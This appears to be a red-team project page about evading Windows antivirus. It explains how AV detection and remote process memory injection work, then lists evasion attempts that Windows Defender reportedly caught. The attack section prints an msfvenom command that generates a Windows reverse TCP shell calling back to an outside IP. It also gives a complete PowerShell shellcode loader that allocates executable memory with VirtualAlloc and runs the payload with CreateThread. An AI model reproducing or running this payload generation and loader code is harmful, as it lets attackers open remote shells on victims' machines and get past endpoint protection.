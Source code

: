
## Background
Antivirus (AV) is a vital application designed to proactively prevent, detect, and eradicate malicious software. Originally, its primary purpose was to combat computer viruses, but its capabilities have expanded to address a wide range of digital threats.

## Examples of Antivirus (AV) Software
1. Windows Defender (Microsoft Defender)
2. McAfee Antivirus
3. Norton Antivirus

## Detection Methods
AV software utilizes various sophisticated detection techniques to identify and neutralize threats effectively:

1. Signature-based Detection: This method involves scanning the filesystem for known malware signatures. If any malicious patterns are detected, the AV software takes appropriate actions.

2. Heuristic-based Detection: Employing advanced algorithms and rules, this approach assesses whether specific actions in a program are deemed malicious. It often entails stepping through the instruction set of a binary file, attempting to disassemble the machine code, and ultimately decompiling and analyzing the source code to gain a comprehensive understanding of the program.

3. Behavioral Detection: AV software executes the suspicious file in an emulated environment, such as a small virtual machine, and observes its behaviors or actions. Any actions considered malicious trigger a response from the AV to contain or remove the threat.

4. Machine Learning Detection: By integrating Machine Learning (ML) algorithms, AV software can detect previously unknown threats by collecting and analyzing additional metadata. This approach enhances the AV's ability to stay ahead of emerging threats.

By combining these powerful detection methods, antivirus applications are constantly updated and refined to safeguard computers and users from the ever-evolving landscape of cybersecurity threats.

## In Memory Evasion
In-Memory Injections, also known as PE Injection, is a popular technique used to bypass antivirus products on Windows machines.
## Remote Process Memory Injection
Remote Process Memory Injection,  attempts to inject the payload into another valid PE that is not malicious.
Use `OpenProcess` function to obtain a valid `HANDLE5` to a target process that we have permission to access. After obtaining the `HANDLE`, we would allocate memory in the context of that process by calling a Windows API such as VirtualAllocEx.6 Once the memory has been allocated in the remote process, we would copy the malicious payload to the newly allocated memory using WriteProcessMemory.7 

# Unsuccessful
1. Powershell Invoke-Stealth. (Caught by Windows Defender) https://github.com/JoelGMSec/Invoke-Stealth
  ![](/assets/Project/Invoke.png)

  Techniques that were utilized in the script:
  Techniques:
       · Chameleon: Substitute strings and concatenate variables
       · BetterXencrypt: Compresses and encrypts with random iterations
       · PyFuscation: Obfuscate functions, variables and parameters
       · ReverseB64: Encode with base64 and reverse it to avoid detections
       · PSObfuscation: Convert content to bytes and encode with Gzip
    However, this was blocked in Windows Defender.
  ![](/assets/Project/Invoke.png)

2. ScareCrow (Caught by Window Defender) https://github.com/optiv/ScareCrow 
  ![](/assets/Project/scare.png)
  ![](/assets/Project/One.png)
3. Powershell Remote Process memory Injection (Caught by Windows Defender)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```

```bash
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

```


This was also blocked by Windows Defender.
## Weaponization

## Reference
- Read team playbook, Offensive Security